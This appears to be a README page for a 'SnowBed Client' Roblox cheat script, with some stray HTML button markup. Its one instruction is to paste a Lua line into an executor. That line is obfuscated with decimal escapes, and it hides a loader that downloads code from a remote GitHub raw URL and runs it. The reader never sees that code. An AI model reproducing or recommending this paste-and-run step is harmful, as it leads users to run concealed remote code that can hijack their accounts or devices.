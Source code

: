 # SnowBed Client
# The Best Client for your favorite roblox games
Just copy the script and put it in your executer

<a href="#" class="button">Post comment (link)</a>
<input class="button" type="submit" value="Post comment (input)">
<button class="button" type="submit">Post comment (button)</button>

```lua
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\101\118\105\110\111\114\51\113\120\116\47\86\65\76\75\73\47\109\97\105\110\47\86\65\76\75\73\39\41\41\40\41\10")()
```
